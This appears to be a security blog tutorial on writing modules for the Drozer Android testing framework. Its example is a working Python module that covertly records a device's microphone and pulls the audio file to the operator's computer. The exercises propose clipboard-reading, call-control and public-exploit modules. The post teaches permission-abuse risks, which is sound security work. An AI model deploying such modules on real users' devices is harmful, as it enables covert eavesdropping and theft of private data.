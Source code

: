 +++
title = "Writing Drozer Modules"
author = ["Yash Agarwal"]
date = 2018-05-13T17:10:13+05:30
images = []
tags = ["Drozer", "android"]
categories = ["Technical"]
draft = false
+++

This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.f-secure.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as making use of Android's Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/FSecureLABS/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository, which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/FSecureLABS/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using the Drozer console using the following command.

{{< highlight bash >}}
dz> module repository create custom
Initialised repository at custom.
{{< /highlight >}}

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/FSecureLABS/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.

{{< highlight python >}}
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
{{< /highlight >}}

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define the name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array that contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.

{{< highlight python >}}
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author = "Yash Agarwal"
date = "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
{{< /highlight >}}

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/FSecureLABS/drozer/wiki/Using-Reflection).

The `execute()` function is given below.

{{< highlight python >}}
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
{{< /highlight >}}

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/FSecureLABS/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission that our agent app had. It allowed our module to record without _user consent_ (actually, the user gave her consent unknowingly while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in the comments section.)


Thanks for reading. Cheers :)
